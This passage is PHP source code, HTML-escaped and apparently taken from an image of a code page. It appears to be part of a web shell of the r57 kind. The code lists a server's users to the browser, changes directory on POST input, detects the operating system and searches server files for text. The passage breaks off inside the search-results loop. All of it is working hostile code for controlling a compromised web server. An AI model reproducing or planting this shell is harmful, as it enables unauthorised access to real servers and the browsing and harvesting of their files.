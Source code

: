 $arrow = " &lt;font face=Wingdings color=gray&gt;?&lt;/font&gt;";
$lb = "&lt;font color=black&gt;[&lt;/font&gt;";
$rb = "&lt;font color=black&gt;]&lt;/font&gt;";
$font = "&lt;font face=Verdana size=-2&gt;";
$ts = "&lt;table class=table1 width=100% align=center&gt;";
$te = "&lt;/table&gt;";
$fs = "&lt;form name=form method=POST&gt;";
$fe = "&lt;/form&gt;";
if(isset($_GET['users']))
 {
 if(!$users=get_users()) { echo "&lt;center&gt;&lt;font face=Verdana size=-2 color=red&gt;".$lang[$language.'_text96']."&lt;/font&gt;&lt;/center&gt;"; }
 else
  {
  echo '&lt;center&gt;';
  foreach($users as $user) { echo $user."&lt;br&gt;"; }
  echo '&lt;/center&gt;';
  }
 echo "&lt;br&gt;&lt;div align=center&gt;&lt;font face=Verdana size=-2&gt;&lt;b&gt;[ &lt;a href=".$_SERVER['PHP_SELF']."&gt;BACK&lt;/a&gt; ]&lt;/b&gt;&lt;/font&gt;&lt;/div&gt;"; die();
 }
if (!empty($_POST['dir'])) { @chdir($_POST['dir']); }
$dir = @getcwd();
$windows = 0;
$unix = 0;
if(strlen($dir)&gt;1 && $dir[1]==":") $windows=1; else $unix=1;
if(empty($dir))
 {
 $os = getenv('OS');
 if(empty($os)){ $os = php_uname(); }
 if(empty($os)){ $os ="-"; $unix=1; }
 else
    {
    if(@eregi("^win",$os)) { $windows = 1; }
    else { $unix = 1; }
    }
 }
if(!empty($_POST['s_dir']) && !empty($_POST['s_text']) && !empty($_POST['cmd']) && $_POST['cmd'] == "search_text")
  {
    echo $head;
    if(!empty($_POST['s_mask']) && !empty($_POST['m'])) { $sr = new SearchResult($_POST['s_dir'],$_POST['s_text'],$_POST['s_mask']); }
    else { $sr = new SearchResult($_POST['s_dir'],$_POST['s_text']); }
    $sr-&gt;SearchText(0,0);
    $res = $sr-&gt;GetResultFiles();
    $found = $sr-&gt;GetMatchesCount();
    $titles = $sr-&gt;GetTitles();
    $r = "";
    if($found &gt; 0)
    {
      $r .= "&lt;TABLE width=100%&gt;";
      foreach($res as $file=&gt;$v)
      {
        $r .= "&lt;TR&gt;";
        $r .= "&lt;TD colspan=2&gt;&lt;font face=Verdana size=-2&gt;&lt;b&gt;".ws(3);
        $r .= ($windows)? str_replace("/","\\",$file) : $file;
        $r .= "&lt;/b&gt;&lt;/font&gt;&lt;/ TD&gt;";
        $r .= "&lt;/TR&gt;";
        foreach($v as $a=&gt;$b)
        {
          $r .= "&lt;TR&gt;";
          $r .= "&lt;TD align=center&gt;&lt;B&gt;&lt;font face=Verdana size=-2&gt;".$a."&lt;/font&gt;&lt;/B&gt;&lt;/TD&gt;";